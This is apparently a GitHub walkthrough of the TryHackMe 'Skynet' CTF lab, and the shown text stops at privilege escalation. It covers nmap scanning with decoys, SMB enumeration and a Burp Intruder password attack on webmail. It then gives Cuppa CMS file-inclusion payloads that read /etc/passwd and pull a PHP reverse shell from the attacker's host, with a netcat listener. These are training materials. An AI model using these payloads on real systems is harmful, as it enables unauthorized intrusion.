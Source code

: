 
![intro](https://github.com/user-attachments/assets/f9d84f33-79f8-494d-993e-1398ae195ed4)

# tryhackme-Skynet-writeup
This is a walkthrough for the tryhackme CTF Skynet. I will not provide any flags or passwords as this is intended to be used as a guide.

## Scanning/Reconnaissance

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -D RND:10 -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals a few open ports that will prove very useful:

![nmap1](https://github.com/user-attachments/assets/b1fe2435-176d-40e8-94e4-4638fa50b40e)

First, let check out the webserver on port 80. It takes use to a skynet search engine, that doesn't seem to have much of any functionality.

![skynet search](https://github.com/user-attachments/assets/f03da96c-57b1-45b4-9faa-e5f1ff157a88)

Ok, let's try a gobuster scan on the target.
```bash
gobuster dir -u $ip -w=/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -x php,txt,html -o bust.txt
```
The scan reveals a few interesting directories:

![buster](https://github.com/user-attachments/assets/fc0b7eba-d432-4df7-adc7-059c36c20d41)

![nikto](https://github.com/user-attachments/assets/3fd6b280-f9c4-4f27-84bb-446aaf06644e)


Most of them are forbidden, but squirrelmail takes us to a webmail login. This must be the 110/tcp pop3 port that was revealed in the nmap scan. I tried to log in with some default credentials but no luck. Let's take note of the error message "Unknown user or password incorrect."

# SMB Enumeration
Our nmap scan revealed 445/tcp for smbd Samba. 

![nmap smb](https://github.com/user-attachments/assets/0b5faf0f-148e-4228-88a6-695927533129)

A good tool for digger deeper on this is enum4linux. 
```bash
enum4linux $ip | tee enum.txt
```
The scan revealed a list of shares, including anonymous where the mapping wasn't denied, and /milesdyson share. 
Let's try to log onto the anonymous share using smbclient and no password: 

![smbclient anon](https://github.com/user-attachments/assets/72391461-7bd5-4038-9e34-0b40e78c2057)

And we're in! Use get attention.txt and log1.txt as we can see that log1 is only file containing info. Let's make a smb dir and move the files into it:
```bash
mkdir smb | mv attention.txt log1.txt smb
```

![smb files](https://github.com/user-attachments/assets/e1d6ab6d-5abb-4f16-b45e-c923b5873b18)

So we have a message from Miles Dyson about changing passwords and a wordlist, which likely contains a valid password. Let's try to attack Mile's password to squirrelmail.
Since we're dealing with a pretty small number of possible passwords, I'll just use burp suite to attack the login. Turn on burp proxy to capture the post login request, right click the request and sent to intruder. Leave sniper attack selected and position the payload markers on the password, (in my case I just used admin) as shown in the screen shot. Next, move to the payloads tab, and load the smb wordlist log1.txt and click attack. Before long the password will be revealed as it results in a different status and length:

![sniper results](https://github.com/user-attachments/assets/89891a06-33d4-4b14-994a-be277c94fdfc)

We can now log into Miles mail with milesdyson and the password.

There are a couple messages from serenakogan@skynet that appear to contain an encoded binary message. Let's head to CyberChef and decode from binary. We get the message "balls have zero to me to me to me to me to me to me to me to me to". The other message from her is not encrypted and apears to have more song lyrics "i can i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i i can i i i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i . . . . . . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i i i i i everything else . . . . . . . . . . . . . .
balls have 0 to me to me to me to me to me to me to me to me to
you i i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me t".
I did a little research on what this is, and it was reported on a Facebook AI experiment, where bots who were programmed to engage in negotiations began to develop their own language and this was from bot negotiations. Interesting, but unrelated to this CTF's progress. Here's a link to an article if you interested: https://www.poetryfoundation.org/harriet-books/2017/06/balls-have-zero-to-me-to-me-ais-non-human-language

Let's check out the email samba password reset. It sure enough it has Mile's password for smb login.
Now let's use smbclient again to log onto the smb share:
```bash
smbclient -U milesdyson //$ip/milesdyson
```
And we're in! There's a lot of irrelivent files here, so let's just cd into notes. There's a file called important.txt and I bet it is important. Let's get it.

![important](https://github.com/user-attachments/assets/8fd28c32-991c-4256-a266-fce4f6941628)

This is the T 800 by the way:

![T 800](https://github.com/user-attachments/assets/443575a4-e053-40a5-9523-a7bfa7124a05)

CMS /45kra24zxs28v3yd is a hidden directory:

![hidden dir](https://github.com/user-attachments/assets/06e7034e-fc47-4ee6-b63e-a50fbcad115f)

It's a bio page for Dr. Miles Dyson, but it doesn't seem to have anything else of interest. Let's do a gobuster scan to see if it leads to other hidden directories:
```bash
gobuster dir -u $ip/45kra24zxs28v3yd -w=/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -x php,txt,html -o bust.txt
```
And this reveals an administrator directory:


![cuppa cms](https://github.com/user-attachments/assets/8a36934b-9b82-4bb1-835d-8a265ca543d4)

I tried logging in with the credentials we found earlier but no luck. Let's try searching for vulnerabilities in this "cuppa cms" with searchsploit.

![searchsploit](https://github.com/user-attachments/assets/24dcf396-5117-43f4-972f-947882757361)

Here's a run down of the exploit: 
#####################################################
DESCRIPTION
#####################################################

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

So, let's try to get the /etc/passwd file first. Our crafted payload should look like this but with whatever your target IP is:
```bash
http://10.10.19.189/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```
And we have the /etc/passwd file, which we will save.
Now, let's craft a payload based off the the first example to get a reverse shell. We'll head to revshells.com, input your IP and port(I'm using the default 9001. Now scroll down on the left and I'm going to use the PHP Pentest Monkey shell. Save it as a file on your machine. Set up a netcat listener on the listening port in our shell.
```bash
nc -lvnp 9001
```
And set up a python server:
```bash
python3 -m http.server
```
Our crafted payload should look like this, except the target IP and whatever your named your shell file:
```bash
http://10.10.33.12/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.184.75:8000/monkey.php
```
And we down have a reverse shell as www-data! Upgrade your shell as shown in the screen shot:

![shell](https://github.com/user-attachments/assets/c75151c8-6f82-47a1-bf9b-9635d0615000)

Just to avoid confusion, after setting the xterm, and suspending your shell. The two are stty commands are to copy your ability to use tab completion and are entered form your machine:
```bash
stty raw -echo; fg
```
```bash
stty rows 16 columns 138
```
# Privilege Escalation
Now, let's find a way to escalate privilages.
